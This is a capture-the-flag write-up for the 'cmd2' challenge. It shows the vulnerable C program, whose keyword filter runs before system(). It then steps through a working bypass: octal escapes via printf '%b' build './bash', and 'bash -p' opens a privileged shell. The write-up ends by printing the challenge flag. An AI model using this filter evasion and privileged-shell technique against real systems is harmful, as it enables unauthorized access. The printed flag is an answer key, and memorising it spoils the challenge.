 # CMD2
this one is a little harder
## Source code
```C
#include <stdio.h>
#include <string.h>

int filter(char* cmd){
	int r=0;
	r += strstr(cmd, "=")!=0;
	r += strstr(cmd, "PATH")!=0;
	r += strstr(cmd, "export")!=0;
	r += strstr(cmd, "/")!=0;
	r += strstr(cmd, "`")!=0;
	r += strstr(cmd, "flag")!=0;
	return r;
}

extern char** environ;
void delete_env(){
	char** p;
	for(p=environ; *p; p++)	memset(*p, 0, strlen(*p));
}

int main(int argc, char* argv[], char** envp){
	delete_env();
	putenv("PATH=/no_command_execution_until_you_become_a_hacker");
	if(filter(argv[1])) return 0;
	printf("%s\n", argv[1]);
	system( argv[1] );
	return 0;
}

```
Now the older exploit wont work.
I notice that I can't use `/` - so full paths are off the table. I immediately thought about `shell-builtins`.
## `Shell-Builtins`
`bash`, `sh`, and even `cmd` all have `shell-builtins`, those are commands which are not files like the rest of the commands.
In `bash`, you can list the built ins by running `help`. You will notice that `echo`  is one of them.

## `Echo` from the other side
So let's see what echo is capable of:
```sh
man echo
# \xHH   byte with hexadecimal value HH (1 to 2 digits)
```
Looks like `echo` can print `HEX`! nice! we can use this and `$()` to run commands without being catch by the filter!
```sh
# to run bash!
╭─ido@debian /bin  
╰─➤  $(echo -ne '\x2E\x2Fbash')
ido@debian:/bin$
```
Nice! let's chain some `cd` as well:
```sh
./cmd2 'cd ..;cd ..;cd bin;$(echo -ne "\x2E\x2Fbash")'
# cd ..;cd ..;cd usr;cd bin;$(echo -ne "\x2E\x2Fbash")
# sh: 1: -ne: not found
```
`-ne not found`? what? it didn't worked. so let's try without it?
```sh
./cmd2 'cd ..;cd ..;cd bin;$(echo "\x2E\x2Fbash")'
# sh: 1: \x2E\x2Fbash: not found
```
Looks like `echo` is acting wired. let's try `printf`

## `printf` from the other side
`printf` is another built-in which doing the same as `echo`!
let's build the command!
```sh
./cmd2 'cd ..;cd ..;cd bin;$(printf "\x2E\x2Fbash")'
# cd ..;cd ..;cd usr;cd bin;$(printf "\x2E\x2Fbash")
# sh: 1: \x2E\x2Fbash
```
Looks like the man page lied.

### Octal coming in rescue!
Took another look at the `printf` manual and found out about `%b` which can be used to pass the octal version of a char. For example:
```bash
printf "%b%bbash" "\56" "\57"
# ./bash
```
Let's build the command #3
```bash
./cmd2 'cd ..;cd ..;cd bin;$(printf "%b%bbash" "\56" "\57")'
# bash-4.3$
```
We have a non-restricted shell!
let's get the flag:
```sh
/bin/cat /home/cmd2/flag
# /bin/cat: /home/cmd2/flag: Permission denied
```
WTF???? Oh wait I forgot `-p` for bash:
```sh
./cmd2 'cd ..;cd ..;cd bin;$(printf "%b%bbash -p" "\56" "\57")'
/bin/cat /home/cmd2/flag
# FuN_w1th_5h3ll_v4riabl3s_haha
```
This one was fun!